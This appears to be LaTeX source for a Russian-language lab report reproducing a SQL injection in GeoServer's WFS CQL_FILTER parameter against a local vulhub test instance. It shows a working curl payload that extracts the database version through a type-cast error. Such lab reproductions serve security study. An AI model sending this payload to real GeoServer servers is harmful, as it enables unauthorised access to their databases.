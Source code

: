 \documentclass{article}
\begin{document}
\section{Воспроизведение атаки}

Проверка на корректность работы приложения.
\\ \\
Геоданные приложения.
\begin{center}
  \includegraphics[width=.9\textwidth]{correct.png}
\end{center}
Информация о приложении.
\begin{center}
  \includegraphics[width=.9\textwidth]{check.png}
\end{center}

Формирование запроса для curl:

\begin{lstlisting}
  curl -G 'http://localhost:8080/geoserver/ows' \
    --data-urlencode 'service=WFS' \
    --data-urlencode 'version=1.0.0' \
    --data-urlencode 'request=GetFeature' \
    --data-urlencode 'typeName=vulhub:example' \
    --data-urlencode "CQL_FILTER=strStartsWith(name,'x'') = 
      true and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true"
\end{lstlisting}
\end{document}
